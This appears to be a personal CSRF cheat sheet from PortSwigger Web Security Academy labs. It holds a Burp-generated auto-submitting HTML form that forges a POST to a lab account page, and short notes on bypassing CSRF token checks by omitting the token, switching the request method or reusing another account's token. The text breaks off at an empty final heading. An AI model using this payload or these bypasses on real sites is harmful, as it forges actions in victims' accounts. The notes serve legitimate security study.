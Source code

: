 # CSRF Cheat Sheet

## Burp Suite CSRF PoF 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8c00430370cdb281bc2110000d005a.web-security-academy.net/my-account" method="POST">
      <input type="hidden" name="id" value="wiener" />
      <input type="hidden" name="csrf" value="ASLKCEVLASKSfaksW" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Check if there's any csrf defense mechanism
We can check this by omitting the **`<input type="hidden" name="csrf" value="ASLKCEVLASKSfaksW" />`** part from the above payload. 

### CSRF where token validation depends on request method
Most requests are POST request, which validate the csrf token. However, when chaning these requests to other methods, the token is no longer valid. We can test this by changing the request method.

### CSRF where token validation depends on token bieng present
The token is only validated when it is present. When it is not ( by omitting the value field or the whole thinig like no defense mechanism scenario), there is no CSRF tokekn validation.

### CSRF token is not tied to the user session
Check if we can use CSRF token of 1 account to exploit another account. 
1. Log in account A and acquire its token
2. Log in account B and deliver the payload, modify the token with account A's token

### CSRF token is tied to a non-session cookie
